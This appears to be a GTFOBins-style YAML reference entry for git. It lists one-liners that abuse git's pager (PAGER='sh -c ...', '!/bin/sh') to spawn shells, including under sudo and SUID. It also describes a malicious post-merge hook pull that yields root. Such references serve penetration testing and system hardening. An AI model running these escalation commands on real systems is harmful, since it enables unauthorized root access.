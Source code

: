 ```yaml
---
functions:
  shell:
    - code: PAGER='sh -c "exec sh 0<&1"' git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        git help config
        !/bin/sh
  sudo:
    - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git -p help config
        !/bin/sh
    - description: The help system can also be reached from any `git` command, e.g., `git branch`. This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
      code: |
        sudo git branch --help config
        !/bin/sh
    - code: | 
        git remote add <name> <repo with malicious post-merge hook>
        sudo git pull <name>
    - description: This can be useful when only git pull is allowed sudo access. Any commands in the post-merge git hook of the repository which is pulled will be executed as root. This enables several ways to pop a root shell, including but not limited to: Adding an SSH key, starting a reverse shell and modifying /etc/passwd to create a new account with root access.
  limited-suid:
    - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
---
```


